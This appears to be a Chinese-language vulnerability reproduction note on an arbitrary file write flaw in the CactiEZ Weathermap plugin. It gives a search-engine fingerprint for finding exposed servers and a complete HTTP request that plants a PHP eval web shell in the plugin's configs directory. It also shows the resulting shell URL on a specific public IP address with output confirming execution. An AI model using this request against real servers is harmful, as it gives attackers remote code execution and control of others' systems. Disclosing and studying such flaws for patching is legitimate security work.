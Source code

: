 # CactiEZ weathermap 插件任意文件写入漏洞

## 漏洞描述

CactiEZ 中文版是 Cacti 中文解决方案，整合了 Spine，RRDTool 和美化字体。集成 Thold，Monitor，Syslog，Weathermap，Realtime，Errorimage，Mobile，Aggregate 以及 Apache，Squid，F5，Nginx，MySQL 等模板。

CactiEZ Weathermap 插件存在任意文件写入漏洞。

## 披露时间

```
wooyun-2016-0178509
```

## 漏洞影响

```
CactiEZ Weathermap 插件
```

## 网络测绘

```
app="Cactiez"
```

## 漏洞复现

登录页面

![](images/CactiEZ%20weathermap%20插件任意文件写入漏洞/image-20240904155412309.png)

poc

```
GET /plugins/weathermap/editor.php?plug=0&mapname=test.php&action=set_map_properties&param=&param2=&debug=existing&node_name=&node_x=&node_y=&node_new_name=&node_label=&node_infourl=&node_hover=&node_iconfilename=--NONE--&link_name=&link_bandwidth_in=&link_bandwidth_out=&link_target=&link_width=&link_infourl=&link_hover=&map_title=<?php%20echo(md5(1));@eval($_POST[0]);?>&map_legend=Traffic+Load&map_stamp=Created%3A%2B%25b%2B%25d%2B%25Y%2B%25H%3A%25M%3A%25S&map_linkdefaultwidth=7 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: */*
Cookie: Cacti=xxx
```

```
http://114.242.111.210:8088/plugins/weathermap/configs/test.php
```

回显 md5 值：

```
# echo(md5(1));
c4ca4238a0b923820dcc509a6f75849b
```

![](images/CactiEZ%20weathermap%20插件任意文件写入漏洞/image-20240904154426936.png)
